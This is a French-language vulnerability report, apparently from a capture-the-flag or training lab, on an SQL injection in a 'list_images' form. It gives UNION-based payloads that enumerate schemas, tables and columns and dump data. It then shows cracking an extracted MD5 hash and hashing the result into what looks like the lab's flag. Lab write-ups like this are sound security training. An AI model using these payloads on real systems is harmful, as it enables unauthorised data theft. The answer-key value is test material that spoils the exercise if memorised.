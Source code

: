 # Rapport de Vulnérabilité : Injection SQL (list\_images)

## Nom de la Faille

Injection SQL

## OWASP
**A03:2021 – Injection**

## Description

Cette faille est similaire à l'injection SQL sur 'Members ID'. Elle permet également d'exécuter des requêtes SQL arbitraires via un formulaire, en accédant à des informations sensibles dans la base de données. La table ciblée est `list_images`, et l'exploitation suit le même processus que précédemment.

## Commandes Utilisées

```
1 UNION ALL SELECT 1, DATABASE()

1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables

1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

1 AND 1=2 UNION SELECT {column_name}, null FROM list_images
```

## Traitement des données extraites

Dans la colonne `comment`, nous obtenons un code MD5 qu'il faut :

1. Déchiffrer en MD5.
2. Mettre en minuscule.
3. Encrypter en SHA-256.

### Exemple de traitement

- Code MD5 extrait : 1928e8083cf461a51303633093573c46
- Décodage MD5 : `albatroz`
- Encodage SHA-256 :

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Conclusion

Cette injection SQL est similaire à celle de 'Members ID', exploitant des failles d'entrée utilisateur non sécurisées. En appliquant les mêmes mesures correctives, vous réduisez considérablement le risque de compromission des données.